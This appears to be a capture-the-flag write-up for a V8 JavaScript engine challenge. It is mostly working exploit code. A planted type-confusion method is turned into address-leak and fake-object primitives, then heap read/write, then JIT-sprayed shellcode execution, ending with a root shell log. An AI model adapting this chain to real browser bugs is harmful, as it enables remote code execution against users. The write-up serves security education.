

# E-Corp Part 2 

### Description:
##### Last year, your internship at E-Corp (Evil Corp) ended with a working router RCE exploit. Leadership was very impressed. As a result, we chose to extend a return offer. We used your exploit to get a MiTM position on routers around the world. Now, we want to be able to use that MiTM position to exploit browsers to further our world domination plans! This summer, you will need to exploit Chrome!

##### One of our vulnerability researchers has discovered a new type confusion bug in Chrome. It turns out, a type confusion can be evoked by calling .confuse() on a PACKED_DOUBLE_ELEMENTS or PACKED_ELEMENTS array. The attached poc.js illustrates an example. You can run it with ./d8 ./poc.js. Once you have an RCE exploit, you will find a file with the flag in the current directory. Good luck and have fun!

##### By Aadhithya (@aadhi0319 on discord)

### Overview:
This is a simple v8 challenge that provides us with a very powerful type confusion bug in the form of a new array method called `.confuse()`, which when called will switch a `PACKED_DOUBLE_ELEMENTS` array to a `PACKED_ELEMENTS` one and vice-versa.

Every array in javascript has a specific type tied to it, i'll briefly describe the ones relevant to us:
- `PACKED_DOUBLE_ELEMENTS` -> array consisting of **raw 64-bit doubles** (very useful for exploitation!) with no holes between the elements (hence the `PACKED`)
- `PACKED_ELEMENTS` -> array consisting of **v8 pointers** to other JS objects, with no holes between the elements (hence the `PACKED`)

#### A brief tangent on v8 pointers:
Pointers in the v8 heap are **"compressed"**, which means they only store a 32-bit offset which get summed to the heap base. \
They are also **"tagged"**, which means they are stored with their LSB set (aka pointer + 1 ), to distinct them from Smis, a primitive type used by v8 to store small integers.

### Solution:
So what can we do with our type confusion? \
If we convert a `PACKED_ELEMENTS` array to a `PACKED_DOUBLE_ELEMENTS` v8 will interpret the object pointers inside the array as 64-bit doubles, therefore leaking their addresses to us.

This allows us to very easily build an `AddressOf` primitive, which we can use to leak the address of an object in the v8 heap.

```js
function GetAddressOf(x) {
    arr = [x];
    arr.confuse()
    
    //NOTE: ftoi() converts a double into an integer, see the full exploit for details
    return (ftoi(arr[0])&0xffffffffn) - 1n;
}
```

Doing the opposite allows to create a `FakeObj` primitive, where we make v8 treat an arbitrary number as a legitimate object pointer.

```js
function GetFakeObject(x) {   
    //NOTE: itof() converts an integer into a duble, see the full exploit for details
    arr = [itof(x)];
    arr.confuse();
    return arr[0];
}
```

These two primitives are all we need to achieve arbitrary read/write inside the v8 heap: \
Our plan is to build two objects `arr_arbrw` and `corrupter_arr`, the last one is a carefully crafted fake object that allows us to overwrite the elements pointer of the `arr_arbrw` array, giving us arb r/w by reading/writing the elements of said array.

```js
let arr_arbrw = [0.1, 0.2, 0.3];

let fake_jsarr = [
    itof((EMPTY_PROPERTIES_ADDR << 32n) | BigInt(MAP_JSARR_PACKED_DOUBLES_ADDR)),
    itof(0x4343434343434343n) // PLACEHOLDER
];

let FAKE_JSARR = GetAddressOf(fake_jsarr)+1n;
let FAKE_JSARR_ELEMENTS = FAKE_JSARR + 0x54n
let ARR_ARBRW_ADDR = GetAddressOf(arr_arbrw)+1n;
console.log("FAKE: 0x"+(FAKE_JSARR_ELEMENTS).toString(16));
console.log("ARR: 0x"+(ARR_ARBRW_ADDR).toString(16));

fake_jsarr[1] = itof(((FAKE_JSARR_SZ * 2n) << 32n) | BigInt(ARR_ARBRW_ADDR));
let corrupter_arr = GetFakeObject(FAKE_JSARR_ELEMENTS);

function v8_write64(where, what) {
    corrupter_arr[0] = itof((0x6n << 32n) | BigInt(where - 8n));
    arr_arbrw[0] = itof(what);
}

function v8_read64(where) {
    corrupter_arr[0] = itof((0x6n << 32n) | BigInt(where - 8n));
    return ftoi(arr_arbrw[0]);
}
```

Now that we have achieved full memory corruption inside the v8 heap we only need a way to hijack RIP, there were many possible ways but i opted for JIT-Spraying a Turbofan compiled function as seen in this [POC](//https://github.com/github/securitylab/blob/main/SecurityExploits/Chrome/v8/CVE_2023_3420/poc.js).

```js
////https://github.com/github/securitylab/blob/main/SecurityExploits/Chrome/v8/CVE_2023_3420/poc.js
function func() {
    return [1.9553825422107533e-246, 1.9560612558242147e-246, 1.9995714719542577e-246, 1.9533767332674093e-246, 2.6348604765229606e-284];
}
for (let i = 0; i < 200000; i++) func(0);
```

First we run the function a lot of times to mark it as hot and let turbofan optimize it into assembly.

```js
var funcAddr = GetAddressOf(func);
console.log("func address: 0x" + funcAddr.toString(16));

var code = v8_read64(funcAddr + 0x8n) >> 40n;
console.log("code address: 0x" + code.toString(16));

var jitAddr = v8_read64(code + 0x10n) & 0xffffffffn;
console.log("jit address: 0x" + jitAddr.toString(16));

v8_write64(code + 0x10n, ((jitAddr + 0x7an) << 32n));
console.log("new jit address: 0x" + (jitAddr + 0x7an).toString(16));
```

Then we slightly modify the offset of our JIT function such that it will jump into the shellcode we wrote inside the float values, we have 6 bytes we can use for instructions and 2 bytes we have to use to jump to the next float. \
Thankfully we don't have to worry about that if we use a ready-made function from a POC :p.

```js
func();
```

The last thing we need to is to call the function to trigger our shellcode and enjoy our shell.

```bash
$ python3 exploit.py 
[+] Opening connection to challenge.utctf.live on port 6128: Done
[*] Switching to interactive mode
 
Running. Good luck! 
FAKE: 0x434b9
ARR: 0x43445
func address: 0x1d3e08
code address: 0x2403b1
jit address: 0xe0000f31
new jit address: 0xe0000fab
$ whoami
root
$ cat /c18eddd76c9b90e6fe205871db8cbff5
utflag{tH3_aRt_0f_c0nfU5!On}
```

Flag: ```utflag{tH3_aRt_0f_c0nfU5!On}```
